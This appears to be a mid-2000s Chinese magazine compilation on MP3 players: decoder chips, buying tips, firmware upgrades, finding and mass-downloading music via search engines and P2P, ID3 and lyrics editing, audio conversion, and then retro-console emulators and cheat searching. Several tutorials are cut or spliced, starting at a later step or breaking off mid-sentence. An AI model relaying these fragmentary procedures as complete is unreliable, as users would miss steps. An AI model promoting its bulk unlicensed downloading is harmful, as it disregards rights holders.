Philips 的 MP3 解码芯片主要包括 SAA775x 系列和 PNX010x 系列。SAA775x 是最常见的飞利浦系列解码芯片。大家见到的使用 Philips 芯片的 MP3 拆机图中一般都是 SAA7750EL/N102 的芯片。SAA7750 拥有 73MIPS 的 24 位 DSP 和 32 位 ARM RISC 处理器，具备可编程 DSP 架构，可以支持多种音乐格式解码，支持解码速率为 8kbps 至 320kbps，高达 90dB 信噪比，兼容多种 EQ 音效，支持 Line-in、扩展卡以及其他主流 MP3 解码芯片特性。PNX010x 系列解码芯片包括 PNX0101、PNX0102 和 PNX0105。PNX0101 和 PNX0102 主要应用于闪存 MP3 随身听，PNX0105 则是针对采用微硬盘为存储介质的多媒体播放器。另外，PNX0102 为 USB 2.0 功能，而 PNX0105 则增加了 IDE 接口。

### 2.“将芯比芯”之成熟的“芯”——Sigmatel 家族

Sigmatel 公司作为 1993 年起家的音频处理厂商，它有丰富的高品质混音集成电路设计和软件开发经验，可提供大量混合信号 IC，包括音乐、语音、数字信号的处理和回放芯片。
Sigmatel 家族常见的解码芯片有 Sigmatel 3410 和 Sigmatel 3510/3520
Sigmatel 3410 是比较成熟的解决方案，其价格低廉、具有良好的程序移植、通用的固件升级以及超强的稳定性。在 2003 年 Sigmatel 3410 是占领市场 80% 的解码芯片，受到各大厂商的极力追捧。Sigmatel 3420 则是 Sigmatel 3410 的升级版，主要是增加了对 MP3 硬件编码的支持，可以直接从外部音源录取音乐。
SigmaTel 3510/3520 支持许多新特性，可用于 MP3 播放机、语言学习机、自动点唱机及 CD 随身听。

### 3.“将芯比芯”之有潜力的“芯”——Telchips 家族

Telchips 是韩国众多 MP3 生产厂商支持的解码芯片生产商，其主要解码芯片包括 Tcc730/731/731Y 和 Tcc72x。
730/731 的处理速度为 80MHz（max），730/731/731Y 的最大区别在封装形式上。另外 731 比 730 增加了一个 nor Flash（存放程序的闪存）。
Tcc72x 系列是 arm9 内核，2.5v 的内核电将其功耗较大，并不适合做闪存式 MP3。Telechips 的芯片没有内置 Audio Code，因此它的音质主要取决于外面的 Audio Code 和其他电路。72X 为 120MHz，所以 72X 的处理速度快，可以开发出更多的其他附带程序，Line-in 时如果有麦克录音其效果应好不少。

### 4. 主流 MP3 品牌使用的芯片

下面就列举一些常见 MP3 的使用解码芯片情况（见下表）。

| 解码芯片 | 对应型号 |
| :--- | :--- |
| Philips SAA7750 | Creative DMP/MX<br>iRiver IFP 1XX 系列 /IFP 3XX 系列 /IFP 5XX 系列<br>MPIO FL100/FD100/FY200 |
| Philips PNX0101ET | iRiver IFP 7XX 系列/8XX 系列/9XX 系列/1XXX 系列/N10<br>MPIO FG100/FL300 |
| Philips PNX0102 | MPIO FY400 |
| Sigmatel 3410/320 | Datum MH-228/DX-1<br>Truly 368/378/399/389/379<br>联想的大多型号 |
| Telchips TCC730/731 | Wewa 王者之音<br>Datum MH-328/Mh-928/Mh-628/Dx-3<br>Truly 382/301<br>联想 F860<br>DEC 街舞系列<br>MPIO FY300<br>ZINO Z700/Z745I<br>MSC PN128/256, PE128/256 |
| Sigmatel 3520 | 魅族 ME/MI/E2/X2<br>昂达 VX506/606/707<br>歌美 B9/M8<br>MSC S8 |

很多人都喜欢以音质来决定要购买哪种 MP3 随身听，但又有多少人买 MP3 随身听是用来欣赏音乐的呢？对于大多数人来说 MP3 随身听用得最多的地方应该就是公共汽车或是马路上吧。在嘈杂的背景环境中，音质再好的 MP3 也不能发挥其作用。于是，在购买 MP3 时，并不一定非要以音质好坏作为首要的判断目标，播放时间、外型、附加功能的种类也都需要考虑。

## 先来说说一些误区：

- ★ 盲目相信芯片型号。就技术角度来说，后出的以及高端的芯片的确能够使得音质有较大提高，但是也应该看到这种提高是相当缓慢而且微小的，很多朋友动辄就因为芯片型号高一点点就付出与此毫不相称的金钱代价，这是极不明智的，应该明白芯片只是音频信号处理的一个部分而已，尤其是现在的随身听，成为音质瓶颈的往往不是芯片（大多数都配备了较好的音频解码芯片），而是其他诸如电路设计、用料等等。
- ★ 崇洋媚外。这个本不应作为内容来讲，但许多人就是瞧不起国货，客观说国货品质是低了那么一点，但应该看到国货也在进步，许多人宁可买外国的低端货，也不买国产的高端产品，这是应该坚决批判的，价钱上两者相差并不多。从市场学的角度讲，同一厂家的产品，高端代表着最高水平，是用来赚取口碑的，而低端的产品往往是品质上差很多，这也是为了拉开产品档次，俗话说就是“卖牌子”。
- ★ 不注重音源质量。随身听是极好的，听的却是低素质的音乐，那就真的是“巧妇难为无米之炊”了，任凭你再好的装备能听出什么好效果？还不如配个低端的含糊一下。
- ★ 偏向好耳机或者偏向于好随身听。只能说两个都很重要，搭配是很费一番心思的，这也是现在很多朋友迷茫的所在，下面会讲到。
- ★ 不试听。这一点是对于新手来说的，而且对于耳机的选择尤其要试听，因为我们对于随身听的选择往往追求的是还原程度，而耳机则不同，只有玩 Hi-Fi 的玩家才会去计较耳机的还原。一般来说，耳机略带些“颜色”是必需的，也是无可避免的，这就使得选耳机时，试听成了必需而且必要的一个步骤。

下面是我个人的一些指导性建议，这部分按照我惯用的购买思路来讲。

1. 想好自己的用途。是出门用还是在家用，在家用的可以部分忽略体积因素，多重视一些容量和功能，我个人还是喜欢出门用功能少的随身听，因为出门在外，很少动手操作，听这听那的，都是照顺序听或者乱序听，这一点就不再费笔墨了，各人的使用习惯不同，根据本身情况作决定。
2. MD、CD 还是 MP3？本来这不是本文的重点，但也这里也稍稍提及一下。这三者各有长短。MD 的音质优势已经在自身的繁琐拷录以及 MP3 的高码率下大大削减，CD 的惟一优势是音质，相对于普通用家来说，还是 MP3 更为实在。在这里还要注意自己的音源，有些朋友自己没有 CD 碟片，却买个 CD 回来听，把 MP3 文件转成 CD 碟，结果适得其反。相比之下，拥有丰富 CD 碟片的朋友选择就要富裕一些，三类机器都可以，当然，选 MD 得有光纤，不然不如选 MP3 划算。
3. 考虑预算。毫无疑问，1000 以下、1000、2000 和 3000 各个档次的机器品质肯定是不同的，现在就应该摸摸自己的口袋，看看自己能够拿出多少银子花在机器上，这里最需要考虑的是耳机问题。当然如果买 iPod 这样的贵重器物，买不买附件，买多少附件也在考虑之内。怎样搭配是个博弈的过程，假如你已经考虑好耳机或者机器中的某一个，那根据已经确定的来选配另一个当然是最聪明的做法，耳机的选择最好放在机器之后，留出预算即可。
4. 现在可以尽可能多地搜集它确定价位的产品信息了，记住一点，除此之外的产品不要考虑，因为之前你已经确定它们不是你所需要的，同一价位上肯定有几款主流机型，当然，也不会太多，因为市场的某一点上总是很容易饱和的，几款机器之间的对比就看你自己的喜好了。一般说来，这几款机器每个都会有它各自的特色，不然市场早就在它成为主流之前用比它更为“特色”的机器将它淘汰，选择很简单，抓住自己注重的特色，用英语来说这个过程就是“Prefer to...”。
5. 下面是耳机（先前已经确定耳机的朋友可以略过这一部分）。耳机牵扯到音色的问题，讨论起来比较复杂，如果急着选择，可以咨询一下评价耳机比较客观的老鸟，结合自己的听音趋向进行选择。当然，这也不是一劳永逸的办法，因为老鸟的评价再客观，耳朵也是你自己的，自己听到的才是你自己真实需要的，多看些相关评价，遇到不太明白的再询问是较好的办法。诚然，有条件一试听自己心仪的耳机则是最好的办法。

为了增强 MP3 的功能，现在一些中高端的 MP3 已经增加了固件升级功能。MP3 的固件就像主板的 BIOS，光驱中的 Firmware 那样，每次更新都可以解决一些实际问题或是增加一些新功能。所以学会为你的 MP3 升级固件是非常有必要的。下面我们就以昂达的 VX303 为例，告诉大家如何升级固件。

1. 第一步：从网上下载最新版本的固件程序，这里一定要注意固件程序一定要和你的机型和版本号相同，否则会出现问题。
2. 第二步：确认你的 MP3 已经关闭，并且电池为满格状态。将 MP3 与电脑连好。
3. 第三步：选择“开始”菜单中的“程序→SigmaTel MSCN Audio Player→固件下载”，这时就会去固件下载程序，勾选“格式化数据区”，点击“开始”按钮，进行升级。
4. 第四步：完成升级后，需要断开一次 MP3 与电脑的连接，然后才可正常使用。

- ★ 大多数品牌的固件升级功能，都会清空 MP3 中的数据，所以在升级前请备份好数据。
- ★ 每个品牌的升级方法各不相同，但在说明书中有详细的说明，大家可以参考说明书进行升级。

如果 MP3 随身听离开了网络，就像没牙的老虎一般，根本无法发挥它的全部功能。你是如何寻找并下载自己喜欢的音乐的呢？专门的 MP3 下载站点？百度 MP3 搜索（http://mp3.baidu.com）？还是 P2P 音乐共享软件？其实有的时候，信息的爆炸也意味着信息的迷失。对 MP3，我们要追求的是“听最好听的”，围绕这个目的，笔者是这样来寻找 MP3 的。

## 实例 1：当你偶然听到一首让你心动的歌，接下来呢？

笔者不知道在哪听过一首叫《玻璃杯》的校园歌曲，简单的旋律、简单的歌词，让人一听就回想起象牙塔里的纯真岁月。于是，马上对这首歌的来龙去脉产生了兴趣，也试图找找歌曲演绎者的其他作品。

### Round 1：通过百度和一搜的 MP3 搜索

百度：跟多数国内的音乐爱好者一样，百度是笔者最先想到的地方。打开 http://mp3.baidu.com，输入关键字“玻璃杯”即可获得其下载地址。

一搜：一搜 MP3 搜索（http://mp3.yisou.com）与百度的功能相同，甚至在某些方面更为强大。因为它提供了“音乐盒”的功能，所以已经成为笔者的最爱。具体的搜索方法如下，首先搜索某歌曲，获得搜索结果后单击其中一个结果的“加入音乐盒”按钮，就可将该歌曲添加到自己的音乐播放列表中，对于多首歌曲均可以此法添加。以后想使用时只要点击页面右边的“查看音乐盒”就可以打开自己收藏的歌曲，单击“开始连续听”按钮即可在线连续播放自己添加的歌曲了（见图 1）。另外笔者在浏览“一搜”的时候还发现一个有趣的地方：在 http://music.yisou.com/mp3list.php?cat=%CF%E0%C9%F9%D0%A1%C6%B7 处可以听到相声和小品。

除了百度和一搜，还有几个不错的 MP3 搜索站点：http://www.sogua.com/、http://www.mp3seek.net/、http://www.mp4cn.com/123.htm。

## 小提示

- ★ 这些搜索引擎都提供了 MP3、RM、Flash、WMA 的选项，选择 MP3 项，可以仅搜索 MP3 文件。
- ★ 在搜索结果出现后，需要参考“大小”及“下载速度”两项，如果文件太小，或是连接速度太慢，则不推荐使用此链接。

### Round 2：通过“贴吧”来继续挖掘

网络上肯定存在与你有共同爱好的人，而这些人也很可能来过百度，并搜索过同样的歌曲。百度的“贴吧”将这些同样爱好的人聚集起来了。

首先在百度 MP3 中搜索“玻璃杯”，在结果页面的底部，我们可以看到对该关键字的讨论（见图 2）。好家伙，居然有近 700 篇留言。进入留言页面，这里都是关于“玻璃杯”的讨论，笔者在这里了解了歌曲的作者以及她们的其他音乐，而且还认识了一位同样喜欢这首歌的 MM，又通过这位 MM 的推荐，我听到了《玻璃杯》作者的还未发行的“绝版”音乐……

## 实例 2：当你很长时间不听歌了，根本不知道听什么好时

或是你发觉自己硬盘里的歌曲听腻了，但又不知道该听什么的时候，可以尝试下面的方法来找歌。

## 小提示

“贴吧”就相当于以某个关键字为主题的论坛。你可以首先注册一个用户，再单击“申请吧主”链接，获得百度的审核后你就可以当“贴吧”的老大了。除了百度外，一搜等搜索引擎也提供了类似的功能，不过人气不如“贴吧”。

## Round 1:听最火爆的歌曲

既然自己不知道听什么，那就来看看别人在听什么吧。很多站点都提供了试听、下载排行榜的功能，笔者推荐大家到以下站点看看：

- ★百度MP3排行:http://list.mp3.baidu.com/list/topmp3.html
- ★百度K歌排行:http://list.mp3.baidu.com/list/hot0408.html
- ★一搜英文歌曲:http://music.yisou.com/list_eng.html
- ★sogua热门榜:http://news.sogua.com/music/topmusic.htm

## 小技巧

用FlashGet将百度音乐TOP 500全部“宰”回硬盘 对于百度的歌曲排行榜TOP 500，我们可以用一款名为“百度MP3 TOP 500批量下载”的软件将其“连锅端回”硬盘。

第一步:首先从 http://info96.k12studio.com/~nio/download.php?id=3 下载该软件，它只有一个运行文件，运行后我们就可以看到百度的TOP 500中所有歌曲了(见图3)。

第二步:取消勾选不想下载的歌曲后，可以直接点击“开始下载”按钮开始下载。不过程序只能一首接一首下载，速度就没那么让人满意了。我们要使用FlashGet来下载，选择“文件→导出列表”，将其导出为*.lst的下载列表。

第三步:运行FlashGet，选择“文件→导入列表”菜单将刚刚导出的下载列表导入。这时候我们会看到一个名为“选择要下载的URL”的窗口，确认后就可以多首歌曲同时开始下载了。

## Round 2:听别人推荐的歌曲

经过人耳朵过滤选择的歌曲一般不会太差，所以当笔者实在不知道听什么的时候，就打开百度等MP3搜索引擎站点，输入“强烈推荐”、“超好听”、“不听后悔”、“天籁之音”等关键字来搜索。这种特殊的关键字选择方法往往能让你获得意外的惊喜。

## 实例3:整张专辑一起下回‘家’

新出的专辑，当然是要一次性全部下载，要是用搜索的方法，那真是太慢了。于是我们推荐你使用非常不错的免费P2P下载软件KuGoo，进行整张专辑的下载。

第一步:从 http://www.kugoo.com/download/down.asp 下载KuGoo的最新版，安装后运行软件，并完成ID的申请。

第二步:运行KuGoo，设置好共享的MP3文件夹，这时就可以准备下载了。点击主页中的“更多专辑”项(见图4)。

第三步:在“节目单列表”中选择要下载的专辑，然后点击要下载的歌曲，KuGoo切换至搜索页面，进行搜索，通常搜索的结果会有很多，我们要找到“拥有者”最多的文件，右击，选择“下载”，这时KuGoo在后台开始下载MP3文件(点击“下载管理”按钮可以查看)。

第四步:点击“娱乐杂志”按钮，回到选择专辑歌曲界面，点击下一首进行下载。重复第三步，直到将专辑中所有歌曲下载完毕(见图5)。

## 修改MP3的ID3信息

我们在用MP3随身听播放MP3文件时，在液晶屏上显示的就是MP3的ID3信息。于是就出现了如何才能快速修改ID3信息的问题，现在几乎所有主流播放器都有修改MP3 ID3信息的功能或有实现相应功能的插件，甚至在Windows XP中，只要右击MP3文件，选择“属性→摘要”后，都可以修改。

现在问题出现了，当有很多MP3文件时，我们如何批量修改MP3文件的ID3标签呢？下面就给大家介绍一款免费的批量ID3修改工具——Music ID Editor。

Music ID Editor小档案 软件版本:2.3.6.13 软件大小:2855KB 软件性质:免费软件 适用平台:Windows 9x/2000/XP 下载地址:http://www.onlinedown.net/soft/22297.htm

## 实例1:批量修改ID3专辑名。现在有一些专辑信息不同的MP3文件，现在将其中的专辑名进行统一。

第一步:打开软件，在左侧选择要修改的MP3所在文件夹，这时右侧就会列出所有的MP3文件，确认所有文件已经勾选。

- ★Winamp修改方法:在播放列表中右击MP3文件，选择“文件信息”即可。
- ★Foobar 2000修改方法:在播放列表中右击MP3文件，选择“文件信息显示”即可。
- ★Windows Media Player 10修改方法:在播放列表中右击MP3文件，选择“高级标记编辑器”项，进行修改。

第二步:选择菜单中的“编辑→专辑”，然后修改为正确的专辑名，点击“确定”(见图1)。

第三步:点击菜单中的“文件→保存ID属性”项即可。

## 实例2:删除标题项中的指定长度的字符。 如图1所示“标题”列中所有的歌曲前面都有序号，如“01.”、“02.”等，现在我们就来删除这些序号。

第一步:与实例1一样，选择要修改的MP3文件。

第二步:点击菜单中的“编辑→高级编辑”，打开“高级编辑”窗口，在窗口左侧选择“左边删除”，在右侧的“处理列”中选择“标题”，在“原值”中选中“01.”项，这时“参数1”就会变成“3”，点击“确定”即可删除(见图2)。

第三步:点击菜单中的“文件→保存ID属性”项完成修改。

## 让MP3随身听显示歌词

MP3显示歌词的功能受到很多朋友的欢迎，不仅仅能用在显示歌词上，对学习英语更是非常有帮助。

我们得到歌词的方法有很多，这里只介绍一种最快速的方法—使用“千千静听”。使用这种方法可以让你在最短的时间内搜索到多首歌曲的歌词。比如我们要为D:\MP3下的所有歌曲找到对应的歌词。

右击“歌词秀”面板，选择“选项”，在打开的窗口中点击“歌词搜索”，然后在窗口右侧的“选择搜索插件”中可以切换歌词服务器或是设置代理服务器。

第一步:确定 D:\MP3 目录下所有MP3文件的ID3信息完整，然后从 http://ttplayer.com/ttsetup.exe 下载千千静听MP3播放器。

第二步:如果你安装过千千静听，那么请打开 C:\Program Files\TTPlayer\Lyrics\ 目录(该目录下保存着所有的歌词文件)，删除下面的所有文件。

第三步:将 D:\MP3 目录下所有MP3文件拖到千千静听主窗口中，并且播放每首歌曲。在播放时，只要千千静听搜索到了歌词，就可以开始播放下一首(见图1)，直到找到所有歌曲的歌词为止。

第四步:用千千静听下载的歌词文件名格式为“艺术家 - 标题.lrc”，比如周传雄唱的黄昏，那么最后的歌词文件就是“周传雄 - 黄昏.lrc”。由于MP3文件要与LRC歌词文件同名，才能在MP3随身听中使用，所以我们还要修改文件名。将MP3文件也修改为“艺术家 - 标题.mp3”的格式。我们使用的工具仍然是前面介绍过的Music ID Editor。

| 容量 | 主要使用环境 | 推荐比特率 |
|------|--------------|------------|
| 128MB | 公共汽车等嘈杂的环境 | CBR128kbps |
| 128MB | 室内等相对安静的环境 | VBR192kbps~256kbps |
| 256MB | 公共汽车等嘈杂的环境 | VBR256kbps~320kbps |
| 256MB | 室内等相对安静的环境 | VBR192kbps~320kbps或CBR320kbps |
| 512MB或以上 | 任何环境 | CBR320kbps |

第五步:打开Music ID Editor，进入D:\MP3目录下，整理好ID3信息，然后选择菜单中的“工具→生成文件名”，在弹出窗口中的“间隔符”中输入“ - ”（不含引号，前后各有一个空格），在“组合方式”中选择“艺术家 - 标题”，点击“确定”（见图2）。最后点击菜单中的“文件→修改文件名”项完成更名。

第六步:这时进入C:\Program Files\TTPlayer\Lyrics\目录，该目录下的LRC文件就是专辑中所有歌曲的歌词，将这些歌词复制到D:\MP3目录下。

第七步:确认所有的文件名已经修改正确，将D:\MP3目录下的文件一起复制到MP3随身听中即可。

有些朋友喜欢用迷你歌词(MiniLyrics)显示歌词，那么你可以在“C:\Program Files\MiniLyrics\Download”目录中找到下载的歌词，通过上面的方法同样可以完成修改。

小提示
有些歌词和唱词错位，这时，我们可以使用“歌词力量”(下载地址:http://nj.onlinedown.net/soft/7650.htm)来修正歌词时间。

## 1.系统中的转换器

如果你只是简单地想将CD光盘抓轨为MP3，那么推荐你使用Windows Media Player 10(下载地址:http://nj.onlinedown.net/soft/22828.htm)，这样不必安装其他软件就可以解决抓轨问题了。最重要的是它使用非常简单:进入软件，选择菜单中的“工具→选项”，点击“翻录音乐”选项卡，在“翻录音乐到此位置”中设置好抓轨后保存的位置，在“格式”中选择“mp3”在“音频质量”下选择好抓轨后音频文件的大小，最后，回到主界面，点击窗口中的“翻录→翻录音乐”即可。

## 2.所有格式大统一

如果是其他格式要转换为MP3怎么办呢? 即使是同样的MP3，采样率、音量也不相同，怎么才能完成统一呢? 遇到这个问题，推荐你使用dBMusic AMP Music Converter。

实例1:将某个电影的全部音频转换为MP3文件。

- 第一步:从 http://geovid.com/download/video-mp3-extractor.exe 下载 Video mp3 Extractor。这款免费软件专门用于从 MP4、MPEG、AVI、ASF、WMV 和 MOV 文件中提出MP3文件。并且适用于 Windows 9x/2000/XP 系统。
- 第二步:安装并运行软件后，点击“Video”中后的“...”按钮，选择电影视频文件。这时在“Mp3”栏中可以设置转换后MP3文件的保存位置，默认为视频文件保存的目录。
- 第三步:在“Quality”中选择转换后音频的质量，数值越大质量越好，在“Bitrate”中设置转换后文件的比特率，由于是学习英语，所以一般设置为96kbps即可。最后，点击“Start”按钮，开始转换(见图1)。

通过电影来练习听力和口语，是很多朋友的首选，那么我们如何将电影视频中的音频部分提取出来作成MP3文件呢? 下面就为你推荐两种方法。

第五步:回到WaveCN主界面，按下Ctrl + P可以试听截取的音频。确认无误后，按下F12键，保存文件，选择好文件保存位置，设置好文件名，并在“保存类型”中选择“MP3音乐及MPEG音频”，再设置好Mp3压缩选项保存即可。

小提示
为获得更好的质量，在录音前最好让Line In及Microphone静音:双击系统托盘的小喇叭图标，在弹出的“Volume Control”窗口中点击“选项→属性”，在“调节音量”下选择“播放”，在“显示下列音量控制”项下将Line In及Microphone两项勾选，然后在“Volume Control”窗口中勾选Line In及Microphone两项的“静音”即可。

剪切后的音频文件了。此时你还可以通过鼠标的选择，配合“编辑”菜单项内的“删左”、“删右”及“复制为新文件”来进一步编辑MP3文件。最后按F12保存为MP3文件即可。怎么样？有了上面的技巧，你还能搞不定你的MP3吗？

## 高手建议

- ★尽量避免选择千元以上的耳机，除非你有特别的需要，否则不要选择高端耳机，因为相对于你得到的来说，那些多付出的金钱也许并不值得。
- ★做好机器的保养。给爱机加一个保护套是再好不过的，这不仅仅是个人习惯的问题，也是爱机持久高品质工作的一个保障。
- ★过马路时请摘下耳机。无论你是否已经搞清你身边的情况和信号灯的信号。
- ★如果条件允许，可以试着给自己的机器配备两个或者三个耳机，这不是重复投资，而是换一种心情或方式来体验自己的音乐，如果除了耳塞还能有一个头戴式耳机？为什么不？那就是所谓的Perfect。
- ★如果不是闪盘式MP3，则要先安装驱动，然后再将MP3连接至电脑。
- ★建议使用MP3随身听自带的程序格式化MP3，除非万不得已，否则不要使用Window中的格式化程序，即使使用了，也要用FAT文件格式格式化MP3，只有这样才能保证能够正常使用随身听的所有功能。

## 关于MP3你不得不去的网站

- imp3:http://www.imp3.net，非常详尽的MP3随身听资料，具有超人气MP3论坛
- MP3秀:http://www.mp3show.cn，同样优秀的MP3导购网站，里面的数据资料相当丰富
- 短歌行:http://www.audio100.net，想了解音频音乐知识，此为必上网站之一
- 耳机大家坛:http://www.erji.net，很多高手在这里讨论耳机及相关设备
- 51耳机网:http://www.51erji.com，这里有很多耳机的相关资料及使用感受
- 歌词吾爱:http://www.51lrc.com，收集超过6万首歌曲LRC格式的歌词
- Lyric4u.com:http://www.lyric4u.com，提供中、英、日文三种语言歌曲的歌词
- 百度:http://mp3.baidu.com，搜索MP3歌曲必去的网站之一
- 一搜:http://www.yisou.com，提供“音乐盒”的特色功能，搜索结果与百度结果相同

## iRiver iFP-790

iRiver(艾利和)的品牌应该不必多做介绍了，音质在广大玩家中得到了肯定，可升级固件。这款产品容量为256MB，支持MP3、WMA、ASF、OGG格式。查询网址:http://www.iriver.com.cn/

## 金河田 KMF810

这款采用特殊工艺的MP3永不褪色，同时还具有屏保功能，支持MP3、WMA、ASF、WAV等音乐文件格式。使用内置的聚合物锂电池可连续播放8小时以上。查询网址:http://www.goldenfield.com.cn/

## LGMF-FE502B

LG公司最先推出的MP3产品，该产品使用内置锂电池，支持MP3、WMA、OGG格式，支持SRS环绕音响效果。这款产品为256MB。查询网址:http://www.lg.com.cn/

## 月光宝盒 MP3 F850

月光宝盒系统是华旗公司推出的产品，共有12种不同颜色，对应12星座。这款产品采用双色OLED屏幕，可实现歌词同步显示、开机画面可下载设定等功能。查询网址:http://www.aigo.com/

## ONDAVX303

昂达的MP3一直以固件升级作为卖点，这款产品同样也不例外。除了可升级固件外，这款软件还支持SRS/WOW环绕立体声音效，999种彩色背光LCD显示等功能。查询网址:http://www.on-data.com/

## MSIMS-5516BT

微星推出的这款MP3具有蓝牙功能，这样你可以充分体现无线的乐趣了。同时这款产品还可以使用SD/MMC存储卡提升MP3的容量。查询网址:http://www.microstar.com.cn/

## 跨越时空的恋恋——走进游戏模拟器的世界

孙宁 xkseraph 菜牛 oz01 lzsgodmax wingseedZZ 一并感谢模拟地带 www.emu-zone.org 的大力支持

## 红与白，不灭的记忆

《超级玛丽》、《魂斗罗》、《街头霸王》……，曾几何时，这些耳熟能详的游戏是我们童年和少年时代的最大乐趣之一：大家那个时候凑在一起谈论最多的话题之一往往围绕一个个游戏、一部部红白机、一本本游戏攻略秘籍。要是谁家有一部任天堂红白机，那简直是同学们崇拜的对象，往往想尽办法和他搞好关系，惟一目的的就是在放学之后能到他家里打打游戏。
时过境迁，任天堂红白机已经在我家柜子的角落里摆得落满了厚厚一层尘土，最早的GameBoy也已成为儿时记忆之一，但每当听到《魂斗罗》、《超级玛丽》和《冒险岛》那熟悉的游戏音乐声时，一种心情还是油然而生……
天津玩家张鹏：
1987年夏天，街边小店，戴着红领巾的我掏出兜里仅有的5元零花钱交给和蔼可亲的杂货店叔叔，兴奋地坐在15″彩色福日电视机前，抓起一个红白盒子连接出的褐红色手柄，和坐在一旁最好的朋友一起在公元2631年的未来世界里消灭外星人，阻止地球的生灵涂炭，我们觉得自己就是魂斗罗！
每每当老妈揪着耳朵把我从小店拽出质问为什么这么晚还不回家，作业做完了没有的时候，拥有那小红白盒子成为牵绊我一生的渴望。十多年后，始终没能拥有被人称为任天堂的小盒子的你，是不是也会想到在伴随了自己多年的PC上重温旧梦呢？

> 小知识 红与白
1983年7月15日，是游戏机发展史上应该载入史册的一个日子，在这一天，迄今为止最为普及的家用游戏机诞生了，那就是任天堂公司推出的FC(全称为“Family Computer”，翻译为“家庭计算机”)，在国内一般被叫做红白机。从一定程度上讲，在很长一段时期内，FC已经成为游戏机的代名词。虽然FC的名字中也有“Computer”这个词，但是实际上它却和电脑联系不多，恰恰相反，它彻底地抛弃了电脑的很多特征和功能，专心于电子游戏平台的营造。在推出该游戏主机后，任天堂公司获得了前所未有的成功，FC和其游戏的销量只能用不计其数来形容。由于硬件配置和设计理念方面的分歧，电脑游戏和电子游戏从这时开始分道扬镳。但是，也正是设计游戏理念的转变，使得在很长一段时期内电子游戏发展蒸蒸日上而同时的电脑游戏水平却不得不甘拜下风。我们所熟悉的《超级玛丽》、《魂斗罗》等游戏都是FC上的扛鼎之作。
80年代的孩子，枯燥枯燥的课余生活被FC点燃，成为功课成绩的奖励，有的早早拥有，有的永远只能馋涎别人，只好每天留恋在游戏屋的周围，但不管怎样，FC都为我们的童年烙上了深深的印记，成为永远的回忆。

## PC上重温红白的梦

在PC上模拟FC红白机使用最普遍最完善的模拟器是VirtuaNES，模拟器的基本操作都非常类似，年代较久远的模拟器机型的模拟器一般下载压缩包后直接解压到目录即可双击目录中的.EXE文件执行，无需安装，在运行后的界面中选择“文件→打开”，找到相应游戏的ROM文件，打开即可开始游戏，VirtuaNES也是如此，不过在重温旧梦之前我们还需要进行一些基本的配置，这里我们以VirtuaNES 0.92版为例。

- 1.设定手柄按键映射:启动VirtuaNES后，点击“选项→控制器”，其中“控制器1”选项卡为1P的键位，“控制器2”选项卡为2P的键位(见图1)。在相应的键位上点一下鼠标左键，再按一下你想定义的键盘按键(或手柄键位)即可。
- 2.设定ROM所在文件夹:点击“选项→文件夹”进行设定，一般来说默认即可，当然件（扩展名为.VMV）即可。成功后，左下角会出现“MOVIE REPLAY”字样，你就静心看录像吧。当左下角出现“MOVIE STOP”时，录像就结束了。

注意，如果出现了提示可能无法正常播放的两种对话框，一般来说一律点“否”，否则录像会发生错乱！

一种对话框说明使用的模拟器版本不对，VirtuaNES有好多版本，每个版本只能用相应版本回放。例如，录像者用的是0.86版本，看录像的人也只能用0.86版本看，高了低了都不行。

另一种对话框说明可能开错了游戏或录像文件，需要重新检查所打开文件对不对。

VirtuaNES版本众多，如果不知道用哪个版本看，可以在调入ROM和录像后，在出现上面第一个对话框时先选“是”，左下角会出现“MOVIE REPLAY”字样，之后选择“编辑→动画→信息”，出现一个窗口。其中第一项就是这个录像版本，这样就知道这个录像是什么版本的模拟器录的了。退出这个模拟器，换上正确版本回放即可。

如果希望自己的攻关大法也可以录制下来，请注意以下几个方面：

- 1. 如果是录单人录像，可省略此步。如果是双人录像，选择“选项→动画”把里面的“2P”勾选上（见图5）。
- 2. 网上流传的许多BT录像，其中大多数是用了S/L大法（即保存记录/读取记录），即时保存的默认键位是“S”，即时读取的默认键是“L”。你可以到“选项→快捷键”中修改键位。
- 3. 打开游戏，选择“编辑→动画→录像”录像就开始录了。FC模拟器是支持S/L的（其他街机模拟器都不能！）你可以在录像时进行S/L。录完后选择“编辑→动画→停止”即可。
- 4. 录好后，不要马上给别人看，要先检查一下。回放录制的录像。如果播放很顺利，就可以传播了；如果录像和你预期的不同（比如录像时没挂、没掉血，放录像时却挂了、掉血了），说明这个版本的模拟器对此游戏的录像支持不好，建议不再录制，等待更高版本出现。

超任SFC的许多经典大作在还未完全流行起来的时候，就被后续次世代光盘主机游戏冲击了，很多玩家在等待SFC降价的时候放弃了它，不过多年前想好好爽一下却未果的SFC游戏，在今天你可以得偿所愿，模拟就可以了。

既然是模拟，首先当然是选择模拟器。目前最流行的模拟器有Snes9x1.26、Zsnes0.989、Snes9xw1.29和Sneshout3.0，其中前两个为DOS版的，后两个为Windows版的。使用方面都非常简单，上一部分掌握了FC模拟器操作的朋友都能轻松上手。我们这里着重说说金手指的玩法，在修改方面，前三个都有自带的搜索程序，另外，如果安装了手柄，后两个都可支持。在声音和图像方面，Zsnes和Snes9xw稍好一些，而操作上则是Zsnes和Sneshout最为方便，但Snes9xw可调至真正全屏，这对于需要感受到像玩电视游戏感觉的你来说非常重要。综合考虑，在都能较好模拟的情况下，建议选择Snes9xw。

修改模拟器游戏有两个选择，一个是使用模拟器自带的搜索程序，另一个则是使用金山游侠2、GM7、FPE2000等修改程序。这两种方法各有优劣，前者查找快，找到的地址也是固定的，但改大批数据时显得力不从心；后者在改某些难以确定具体数值时办法更多。话说回来，两者也可相互配合使用，因为地址间的相对位置是不会改变的。对于后一选择，推荐游侠2，查找速度极快。若要修改存档，可使用UltraEdit。

下面以Zsnes为例，其他的模拟器也基本类似，可以仿照这个方式进行金手指的设定。

- 第一步：运行Zsnes并载入游戏。
- 第二步：按Esc调出菜单，选“CHEAT→SEARCH”，出现查找选项画面（见图6）。

其中上部“SELECT SIZE AND FORMAT”，顾名思义，就是选择搜索代码的范围和类型，比如《幻想传说》中人物的HP最大值为9999，那么搜索的范围就选择为“2 BYTES [0~65535]”，至于类型一般选择“DEX”，也就是10进制，当然也有的游戏是使用16进制的，那就选择“HEX”。下部的“SELECT SEARCH TYPE”，其中“EXACT VALUE SEARCH”是高级搜索，就是搜索能够看得见数值的数据，如HP、MP、钱等；“COMPARITIVE SEARCH”是低级搜索，就是搜索非数值的数据，当然搜索有数值的数据也可以，如格斗游戏中的血槽。

- 第三步：上面选择好以后，按回车，出现的画面根据高级或低级搜索而不同：

